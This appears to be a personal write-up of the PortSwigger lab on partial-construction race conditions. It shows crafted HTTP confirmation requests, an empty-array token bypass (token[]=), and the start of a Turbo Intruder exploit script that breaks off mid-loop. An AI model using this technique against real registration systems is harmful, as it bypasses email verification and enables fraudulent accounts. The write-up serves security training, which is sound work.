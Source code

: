 From <https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction> 


In Burp Repeater, create an equivalent request to what your browser might send when clicking the confirmation link. For example:

From <https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction> 

```
POST /confirm?token=1 HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Type: x-www-form-urlencoded
    Content-Length: 0
```



Experiment with the token parameter in your newly crafted confirmation request. Observe that:
	○ If you submit an arbitrary token, you receive an Incorrect token: <YOUR-TOKEN> response.
	○ If you remove the parameter altogether, you receive a Missing parameter: token response.
	○ If you submit an empty token parameter, you receive a Forbidden response.
	
	
Normal
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/ad478a8d-069a-4d36-a08a-97b771e733a9)



Experiment with different ways of submitting a token parameter with a value equivalent to null. For example, some frameworks let you to pass an empty array as follows:

From <https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction> 
Observe that this time, instead of the Forbidden response, you receive an Invalid token: Array response. This shows that you've successfully passed in an empty array, which could potentially match an uninitialized registration token.
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/04378c0e-78ad-4704-9587-701828e4d9a8)

From <https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction> 





Send the register to turbo intruder  with username as parameter
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d0acd2de-cca6-4e2d-9279-e2c3fac268bf)



Our exploit
```
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: phpsessionid=YOUR-SESSION-TOKEN
Content-Length: 0

'''
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'User' + currentAttempt
    
        # queue a single registration request
```